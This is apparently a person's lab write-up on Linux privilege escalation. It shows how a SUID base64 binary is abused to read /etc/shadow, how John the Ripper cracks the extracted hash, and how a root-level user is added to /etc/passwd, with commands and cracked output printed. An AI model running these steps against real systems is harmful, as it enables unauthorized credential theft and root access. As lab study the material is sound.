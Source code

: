## Read /etc/shadow file
* `find / -type f -perm -04000 -ls 2>/dev/null`.
  * `/usr/bin/base64` has SUID bit set.
```
$ LFILE=/etc/shadow
$ /usr/bin/base64 "$LFILE1" | base64 --decode | grep user2
```
* Prints contents of the `/etc/shadow` file.
```
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
```
* Create empty files in SUID folder.
```
touch ./Desktop/SUID/passwd.txt ./Desktop/SUID/shadow.txt ./Desktop/SUID/passwords.txt
```
  * Copy user2 data from `/etc/passwd' into `passwd.txt` file.
  * Copy user2 data from `/etc/shadow' into `shadow.txt` file.
* `unshadow` tool creates a file crackable by John the Ripper.
```
unshadow ./Desktop/SUID/passwd.txt ./Desktop/SUID/shadow.txt > ./Desktop/SUID/passwords.txt
```
* John the Ripper can return one or several passwords in cleartext with the correct wordlist and a little luck.
```
john --wordlist=/usr/share/wordlists/rockyou.txt ./Desktop/SUID/passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (user2)
1g 0:00:00:06 DONE (2024-02-12 18:39) 0.1526g/s 547.1p/s 547.1c/s 547.1C/s asdf1234..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
* Another option would be to add a new user that has root privileges if the SUID bit was set for a text editor.
  * This would help circumvent the tedious process of password cracking.
  * Need the hash value of the password the new user should have.
    * This can be done quickly using `openssl`.
```
openssl passwd -1 -salt THM password1
$1$THM$WnbwlliCqxFRQepUTCkUT1
```
* Add the password with a username to the `/etc/passwd` file.
```
hacker:$1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash
``` 
* Switch to the new user and hopefully gain root privileges. 
